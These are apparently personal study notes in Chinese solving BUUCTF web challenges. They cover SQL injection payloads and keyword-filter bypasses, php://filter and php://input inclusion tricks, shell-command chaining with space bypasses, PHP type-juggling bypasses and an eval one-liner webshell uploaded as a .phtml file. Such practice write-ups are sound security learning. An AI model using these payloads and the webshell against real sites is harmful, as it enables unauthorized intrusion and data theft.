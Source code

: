 [BUUCTF] WEB PHP1
	#PHP反序列化漏洞
	绕过函数 *PHP序列化与反序列化，对象属性值修改绕过*
	扫描文件，得到源码，分析函数作用。
[ACTF2020 新生赛]Include
	#Include文件包含漏洞
	PHP伪协议相关中的php://协议
	php://filter用于读取源码(以base64编码输出)：
	一些敏感信息会保存在php文件中，直接打开是不会将它们显示在界面上的
	但是经过base64编码再解码就可以得到其完整的源码信息：
	php://filter/convert.base64-encode/resource=文件路径
	php://input用于执行php代码：
	可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。
[GXYCTF2019]Ping Ping Ping
	#命令执行漏洞
	使用拼接符让其执行多条命令
	“&“ ”|“ ”||“ ”&&“ ”;“
	使用ls查看文件，使用cat执行文件，绕过空格，使用$IFS变量，使用反引号\`\`高优先级执行ls,查看 源码，得到Flag() 
	关于反引号高优先级：[[【精选】Shell语法基础--各种括号、引号的用法.pdf]]
 [ACTF2020 新生赛]Exec
	#命令执行漏洞
	index.php使用了exec来模拟执行命令，使用拼接符来执行ls,ls /,发现flag在上一级目录中，使用 cat /flag获取flag
	关于命令漏洞：[[【精选】命令执行漏洞详解_命令执行漏洞原理.pdf]]
[极客大挑战 2019]BuyFlag
	#PHP绕过
	isnumeric()绕过:
	观察源码提示，需要绕过isnumeric()函数，可以在数值后加入空字符%00，%20或者任意字符
	弱等于(" == ")绕过:
	"admin1" == 1:False
	"1admin" == 1:True
	字符串将会被强转类型进行比较，只有数字在字符串开头时才会转为此数字，否则为0。
	而格式类似于“4e114514”会被识别为科学计数法，“0e114514”将会是0。
	绕过上面两个后，他会检测你是不是特定用户，在cookie里找到了user变量，修改其值即可。cookie也是要注意的点。
	PS:这题不用post方法不会返回FLAG，要在burpsuite进行POST提交，修改GET为POST,添加Content-Type: application/x-www-form-urlencoded，才能正常的进行POST提交。
[极客大挑战 2019]EasySQL
	#SQL注入漏洞
	构造URLhttp://cb544b05-5897-4925-8632-8b81aace8260.node4.buuoj.cn:81/check.php?username=‘ or 1=1 -- ’&password=2
	万能钥匙(随便找的文章，后面好好看SQL注入)
	-- 为SQL注释，--后有空格(可以替换为其他符号),password被注释掉，1=1为永真条件，直接通过。
	关于SQL漏洞：[[网络安全——SQL注入漏洞.pdf]]
[强网杯 2019]随便注
	#SQL注入漏洞
	加单引号报错：可注入，单引号闭合
	使用Order by 命令试有几列数据
	一个提交框可以搜索，其搜索的是表一的数据
	使用’;’拼接多条SQL语句，使用show语句查看数据库的结构
	连续使用show database;show tables;show columns from 表名;
	得到其拥有两个表，在第二个表中有Flag列
	但是直接进行SELECT返回被正则拦截，尝试异或字符绕过正则失败，继续使用堆叠多条SQL语句，将表一改名，将表二改为表一的名字，添加表一的id列，交换flag的位置,使用其自带的提交框进行检索id1，拿到Flag。
	关于绕过正则：[[命令执行中关于PHP正则表达式的一些绕过方法.pdf]]
	关于show()：[[MySQL show()函数详述.pdf]]
[SUCTF 2019]EasySQL
	#SQL注入漏洞
	输入1,2,3,4.......回显一个数据，输入0，无回复，输入字符无回复，堆叠语句连续使用show语句，得到表名为Flag的表，但是最后使用show columns from flag时回复nonono，其他的字符都无回显，尝试发现，flag,from被屏蔽，回复nonono
	你管这叫EASY?
	直接看别人WP!秒了！
	猜测SQL语句SELECT ?||flag FROM Flag
	法一：让语句里这个‘||’变成连接符，而不是或，使用1;set sql_mode=PIPES_AS_CONCAT;SELECT 1
	法二：构造*，1
	即SELECT * , 1||flag FROM Flag
	关于||：
	Mysql中的或运算符是通过让两边转为BOOL值再比较。
	字符串为0,非0数字为1
 [极客大挑战 2019]Secret File
	 #Include文件包含漏洞 
	 进入页面，查看源代码，发现页面有隐藏按钮，直接跳转到Archiveroom.php,再点击到SECRET页面
	 点点点直接END,没有任何的信息，让回去再看看，发现跳转用的action.php一直没有访问，直接查看其源码：![[Pasted image 20231020205329.png]]
	 访问这个secr3t.php，进入后：
	 ![[Pasted image 20231020205518.png]]
	 其屏蔽了，../访问上一级，tp,input但是没有过滤filter，使用filter（php://filter/convert.base64-encode/resource=文件路径）查看flag.php的源码，base64解码拿到flag：![[Pasted image 20231020205753.png]]
[极客大挑战 2019]Http1
	直接访问没有任何东西，利用burpsuite访问发现其下有Secret.php页面，进入后，提示，请从https://Sycsecret.buuoj.cn访问，这里要加Referer请求头，修改来源界面为https://Sycsecret.buuoj.cn.添加后访问，其提示要使用Syclover浏览器访问，将User-Agent里的Mozilla修改为Syclover即可进入，其提示需要本地访问，添加X-Forwarded-For字段：127.0.0.1，即可获取到Flag.
	请求头的类型：[[http请求头有哪些？_http协议请求头_Mrwang21的博客-CSDN博客.pdf]]
[极客大挑战 2019]Knife
	#命令执行漏洞 
	直接访问提示：
	![[Pasted image 20231023175609.png]]
	那么应该是命令执行漏洞，使用PHP的eval函数来执行POST请求发送的Syc参数。
	向其发送POST请求Syc=var_dump(scandir(’/‘))，其返回所在目录的结构，查看源代码(黑色背景看不到)，看到当前目录有flag文件，发送POST请求Syc=var_dump(get_file_contents('/flag'))返回flag。
	![[Pasted image 20231023175937.png]]
	var_dump打印变量。scandir扫描目录，返回数组。get_file_contents将文件读入字符串返回
[极客大挑战 2019]Upload
	#文件上传漏洞 
	上传一句话木马图片，提示非图片，加上图片头，过检测，提示包含< ？使用js执行php脚本<script language='php'>eval($_GET[cmd]);</script>,上传成功，但是其不会自动执行，在burpsuite抓包之后，修改其后缀为phtml(包含php的html)，猜测其在upload文件夹下，进入执行，通过system()请求ls命令以及ls /，发现根目录下存在flag,执行cat flag，获取到flag。
	常用的文件头：[[常用文件头]]
[ACTF2020 新生赛]Upload
	直接用上面的🐎就可以了，步骤同上
[极客大挑战 2019]BabySQL
	此题依旧使用万能钥匙即可登录（Mariadb ver.'1' or 1=1#'）登陆后使用orderby找回显点,使用组合语句进行查找数据库，表，列，数据。
	但是发现其屏蔽了大多数的sql语法，or from where等，使用==双写法==绕过。
	连续使用以下双写过的语句。即可获取flag。
	group_concat(table_name) from information_schema.tables where table_schema=database()
	group_concat(column_name) from information_schema.columns where table_name=''
	group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database()
	group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name=''
	group_concat(col1,col2,col3...) from db.table
	关于这些函数 ：[[内置函数与特殊数据库.pdf]]
[ACTF2020 新生赛]BackupFile
使用dirsearch扫描，设置低线程，延时，扫到index的bak备份文件：
```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
将字符串视作int时，数就是字符串开头的数字。‘123’，直接key=123拿到flag